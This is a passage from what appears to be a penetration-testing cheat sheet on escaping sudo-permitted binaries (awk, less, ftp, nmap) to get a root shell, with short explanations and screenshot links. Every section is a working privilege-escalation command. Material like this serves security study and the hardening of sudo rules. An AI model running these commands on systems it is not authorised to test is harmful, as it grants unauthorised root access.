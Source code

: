 ```
sudo awk 'BEGIN {system("/bin/sh")}'
```

![image](https://user-images.githubusercontent.com/14150485/172016444-46b9f785-5351-4a2f-9e14-76fbcceadba7.png)

<br />

**less**
--------

<br />

*If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*

```
sudo less /etc/profile
!/bin/sh
```

![image](https://user-images.githubusercontent.com/14150485/172016574-7fdc2c82-e035-4cca-8e0c-ffde770343f9.png)

The `!` character enables code execution which allows us to run the `/bin/sh` command that grants root access.

![image](https://user-images.githubusercontent.com/14150485/172016591-667f9643-cb9a-4983-ac32-fee3989cd201.png)

<br />

**ftp**
-------

<br />

*If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*

```
sudo ftp
!/bin/sh
```

![image](https://user-images.githubusercontent.com/14150485/172016751-ac465d2c-d464-4e31-bbd3-b29bdf3d3012.png)

<br />

**nmap**
--------

<br />

*If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.*

*(a) Input echo is disabled.*

```
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```
